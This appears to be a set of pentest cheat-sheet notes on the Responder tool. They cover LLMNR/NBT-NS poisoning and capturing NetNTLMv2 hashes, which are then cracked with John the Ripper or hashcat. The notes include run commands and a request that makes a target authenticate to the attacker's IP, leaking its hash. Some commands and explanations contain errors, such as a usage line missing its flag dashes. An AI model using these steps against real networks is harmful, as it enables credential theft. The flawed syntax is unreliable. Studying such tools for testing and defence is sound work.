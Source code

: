 # Responder

## Overview

IPv6/IPv4 LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay.

https://github.com/lgandx/Responder


## SMB NTLMv1/v2 Relay

When the target machine attempts to perform the NTLM authentication to that server, Responder
sends a challenge back for the server to encrypt with the user's password. When the server responds,
Responder will use the challenge and the encrypted response to generate the NetNTLMv2. While we can't
reverse the NetNTLMv2, we can try many different common passwords to see if any generate the same
challenge-response, and if we find one, we know that is the password. This is often referred to as hash
cracking, which we'll do with a program called John The Ripper.

Check in the Responder.conf file that the flag for SMB is ON.
Then run Responder with

	sudo python3 Responder.py -I <interface_name> (or sudo responder -I <interface_name>)

Now that the Responder server is listening, we make a request for a nonexistent file in our local machine so that Responder can get the NTLVM hash/challenge

	http:\\<target_ip>/?page=//<our_ip>/somefile

	or

	gci \\<local_ip>\share\somefile #from powershell

You should see the hash printed on Responder. Save the hash to a file and crack it with a tool like johntheripper or hashcat
## Installation

	git clone https://github.com/lgandx/Responder
	Default installation path (in Kali):  /usr/share/responder/

## Command Options

	-I <interface_name> : Sets which interface to linsten/use
	-A:	Analyse mode. Sees requests but doesnt respond.

	-w: enables SMB poisoning.
	-r: captures hashes from NTLM authentication.
	-f: forces logging to a file.


## Usage

	sudo responder -I <interface_name> wrf

Only analyse

	sudo responder -I <interface_name> -A